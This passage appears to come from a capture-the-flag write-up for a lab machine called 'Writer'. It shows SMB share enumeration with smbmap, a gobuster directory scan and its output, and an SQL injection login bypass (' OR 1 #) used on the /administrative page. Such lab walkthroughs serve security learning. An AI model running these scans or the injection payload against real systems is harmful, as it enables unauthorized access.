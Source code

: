 ### SMB analysis

We have no anonymous access to the smbservice

```log
smbmap -H 10.10.11.101 --no-banner
                                                                                                    
[+] IP: 10.10.11.101:445        Name: 10.10.11.101              Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        writer2_project                                         NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (writer server (Samba, Ubuntu))
```

### Gobuster scan

```log
gobuster dir -u 10.10.11.101 -w=/usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster/dirscan
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.101
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/25 15:45:22 Starting gobuster in directory enumeration mode
===============================================================
/contact              (Status: 200) [Size: 4905]
/logout               (Status: 302) [Size: 208] [--> http://10.10.11.101/]
/about                (Status: 200) [Size: 3522]                          
/static               (Status: 301) [Size: 313] [--> http://10.10.11.101/static/]
/.                    (Status: 200) [Size: 20660]                                
/dashboard            (Status: 302) [Size: 208] [--> http://10.10.11.101/]       
/server-status        (Status: 403) [Size: 277]                                  
/administrative       (Status: 200) [Size: 1443]                                 
                                                                                 
===============================================================
2021/09/25 15:48:47 Finished
===============================================================
```

### Website analysis

In the about page we can find this email address: admin@writer.ht
We can log into the `/administrativ`e page by simply using the SQL Injection `' OR 1 #`
